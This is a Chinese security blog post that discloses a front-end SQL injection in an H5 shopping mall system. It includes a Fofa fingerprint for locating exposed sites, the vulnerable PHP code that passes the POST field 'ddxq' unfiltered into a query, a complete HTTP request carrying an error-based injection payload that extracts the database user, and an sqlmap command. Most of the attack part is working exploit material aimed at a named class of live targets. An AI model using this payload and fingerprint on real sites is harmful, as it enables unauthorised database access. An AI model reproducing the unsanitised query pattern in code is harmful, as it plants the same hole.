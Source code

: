 #  某全新H5购物商城系统存在前台SQL注入漏洞   
原创 Mstir  星悦安全   2024-11-17 03:57  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
**该源码采用HTML5技术开发，可以完美适配各种移动设备，以及iOS和Android系统。同时，易支付接口更为商家提供了便捷的交易功能，让顾客可以轻松通过手机进行网络支付，享受到更加便捷的购物体验。**  
  
**该源码界面设计十分简洁、清爽，同时还保证了购物流程的顺畅和简便。无论是主页、分类页面、商品详情页面，都给人留下了很好的第一印象。**  
  
**Fofa指纹:"/src/images/gg.png" && "/public/goods.php"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwpTtyF3DnibTKM22xLLND31aLwT4ggLeZBwMbuIfzkRv7DATkQNSF7jzw/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwpgXOQIkn0WH9U2A0VQSe23HtsEWY0U5eQwy0TiaDYxIVuGQCg1J4uYUw/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwpNFZiau02Gm0tKAI6UhZOSOQ713tnzYbtJYiayicyvIGz7BArNbOoTShcw/640?wx_fmt=other&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**位于 /public/commodtiy.php 文件中可以通过POST传入ddxq 来直接进入到SQL查询中，且未有任何过滤，导致漏洞产生.**  
```
<?php 
require($_SERVER['DOCUMENT_ROOT']."/config/database.php");
//查询商品sql
//首页推荐商品
$sysp=mysqli_query($link,"SELECT * FROM `sc_commodtiy` WHERE `spTj`='1' order by id desc");
//全部商品
$sp=mysqli_query($link,"SELECT * FROM `sc_commodtiy` order by id desc");
//查询用户订单流程
if($_POST['ddxq']){
    $dd=$_POST['ddxq'];
    $ddxq=mysqli_fetch_assoc(mysqli_query($link,"SELECT * FROM `sc_order` WHERE id='{$dd}'"));
    $order=array(
    "ddh"=>  $ddxq['danhao'],
    // "ifFh"=>$ddxq['ifFh'],
    );
    echo json_encode($order);
}
?>
```  
  
**Payload:**  
```
POST /public/commodtiy.php HTTP/1.1
Content-Length: 213
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close

ddxq='||(SELECT 0x4776756d WHERE 3443=3443 AND (SELECT 9303 FROM(SELECT COUNT(*),CONCAT((MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwplKoEVDmCBLh2WhmEhA09xD28ODnPENBoX8qclb0yMxP5mTZKmHpgrQ/640?wx_fmt=other&from=appmsg "")  
  
**Python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwpIricwiaVIjcTEu4vqfkxJUeVuJDTDzlicsG0h2ETpFTKdX7O7IeApxcMQ/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**购物商城源码关注公众号发送 241117 获取!**  
  
  
  
  
**进星悦安全公开群添加下方VX 备注 "进群"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fr0w5NqA8l0xH4mcpTbkGK5v6wyHcicibH4ia14Wq1n0fPvn1C0QPAe98oVABtMWOA8nRPfHia0YqAFw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
